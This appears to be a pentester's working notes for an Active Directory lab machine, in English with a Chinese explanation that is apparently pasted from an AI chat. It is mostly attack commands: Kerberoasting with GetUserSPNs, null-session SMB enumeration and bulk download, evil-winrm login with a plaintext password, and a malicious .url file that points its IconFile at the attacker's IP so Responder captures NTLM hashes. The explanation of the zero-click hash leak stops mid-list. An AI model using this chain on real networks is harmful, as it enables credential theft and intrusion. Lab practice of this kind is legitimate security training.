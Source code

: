 
```SQL
 GetUserSPNs.py -request -dc-ip $IP vault-offsec/svc_tgs
 rpcclient -U '' -N $IP
  smbclient //$IP/DocumentsShare -N -c 'prompt OFF; recurse ON; mget *'
```

```SQL
evil-winrm -i $IP  -u anirudh -p "SecureHM"
```

Custom share: Unlike the other shares listed (ADMIN$, C$, IPC$, NETLOGON, SYSVOL) which are standard Windows shares, "DocumentsShare" is a custom share. This suggests it was specifically created by the system administrators.

try if smb can put, and download

NTLM theft techniques are typically employed when you're looking to capture NTLM hashes from Windows systems. Here are some scenarios where using ntlm_theft could be particularly relevant in your pentest:

1. After discovering open shares: Now that you've identified the "DocumentsShare", this could be an ideal time to attempt NTLM theft. Users or systems accessing this share might be tricked into sending their NTLM hashes.

```SQL
[InternetShortcut]
URL=Random_nonsense
WorkingDirectory=Flibertygibbit
IconFile=\\<YOUR tun0 IP>\%USERNAME%.icon
IconIndex=1
```

sudo responder -I tun0 -wv

这是一个很好的问题。让我解释一下为什么当你把这个URL文件放入SMB共享文件夹时，它会自动运行：

1. Windows的自动图标加载机制：  
    当Windows资源管理器显示文件和文件夹时，它会尝试为每个项目加载相应的图标。这是为了提供更好的用户体验。
2. SMB共享的特殊性：  
    当用户或系统访问SMB共享时，Windows会尝试显示共享中的内容，包括文件图标。
3. .url文件的特殊处理：  
    .url文件被设计为包含图标信息。Windows会特别注意这种文件的IconFile属性。
4. 自动连接尝试：  
    当Windows看到IconFile指向一个网络路径时，它会自动尝试连接到该路径以获取图标。
5. 无需用户交互：  
    这个过程是自动的，不需要用户点击文件或执行任何操作。仅仅是查看包含该文件的文件夹就足以触发这个行为。
6. 后台进程：  
    可能有一些后台进程或服务定期扫描SMB共享，这也会触发图标加载过程。
7. 缓存机制：  
    Windows可能会尝试缓存共享文件夹的内容，包括图标，这又会触发连接尝试。
8. 权限问题：  
    在某些情况下，系统或高权限用户可能会自动访问新添加到共享的文件，导致触发图标加载。

这种自动行为正是使得这类攻击如此危险的原因。用户或系统管理员可能完全不知道正在发生凭证泄露，因为这一切都在后台自动进行，无需任何明显的用户交互。

这强调了几个重要的安全原则：
